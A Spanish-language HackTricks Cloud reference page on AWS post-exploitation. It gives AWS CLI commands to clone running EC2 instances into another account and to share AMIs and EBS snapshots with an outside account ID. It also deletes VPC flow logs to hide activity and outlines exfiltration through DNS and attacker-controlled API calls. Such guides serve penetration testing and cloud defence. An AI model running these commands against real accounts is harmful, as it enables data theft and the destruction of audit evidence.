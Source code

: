 # AWS - EC2, EBS, SSM y Post Explotación de VPC

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## EC2 y VPC

Para obtener más información, consulta:

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **Espejo Malicioso de VPC**

El espejo de tráfico de VPC **duplica el tráfico de entrada y salida para las instancias EC2 dentro de una VPC** sin necesidad de instalar nada en las propias instancias. Este tráfico duplicado comúnmente se enviaría a un sistema de detección de intrusiones en la red (IDS) para su análisis y monitoreo.\
Un atacante podría abusar de esto para capturar todo el tráfico y obtener información sensible de él:

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### Copiar Instancia en Ejecución

Las instancias suelen contener algún tipo de información sensible. Hay diferentes formas de acceder a ellas (consulta [trucos de escalada de privilegios de EC2](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md)). Sin embargo, otra forma de verificar lo que contiene es **crear una AMI y ejecutar una nueva instancia (incluso en tu propia cuenta) a partir de ella**:
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```
### Volcado de instantáneas de EBS

**Las instantáneas son copias de seguridad de los volúmenes**, que generalmente contienen **información sensible**, por lo tanto, al verificarlas se puede revelar esta información.\
Si encuentra un **volumen sin instantánea**, puede: **Crear una instantánea** y realizar las siguientes acciones o simplemente **montarlo en una instancia** dentro de la cuenta:

{% content-ref url="aws-ebs-spanshot-dump.md" %}
[aws-ebs-spanshot-dump.md](aws-ebs-spanshot-dump.md)
{% endcontent-ref %}

### Exfiltración de datos

#### Exfiltración a través de DNS

Incluso si bloquea un EC2 para que no se pueda enviar tráfico, aún puede **exfiltrarse a través de DNS**.

* **Los registros de flujo de VPC no registrarán esto**.
* No tiene acceso a los registros de DNS de AWS.
*   Deshabilite esto configurando "enableDnsSupport" en falso con:

`aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

#### Exfiltración a través de llamadas a la API

Un atacante podría llamar a los puntos finales de la API de una cuenta controlada por él. Cloudtrail registrará estas llamadas y el atacante podrá ver los datos exfiltrados en los registros de Cloudtrail.

### Post Explotación de SSM

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md" %}
[aws-ssm-post-exploitation.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md)
{% endcontent-ref %}

### Escalada de privilegios a ECS

Es posible ejecutar una instancia de EC2 y registrarla para que se use para ejecutar instancias de ECS y luego robar los datos de las instancias de ECS.

Para [**más información, consulte esto**](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs).

### Eliminar registros de flujo de VPC
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### Compartir AMI

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### Compartir instantánea de EBS

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop).
* Obtén el [**merchandising oficial de PEASS y HackTricks**](https://peass.creator-spring.com).
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family).
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en GitHub.

</details>
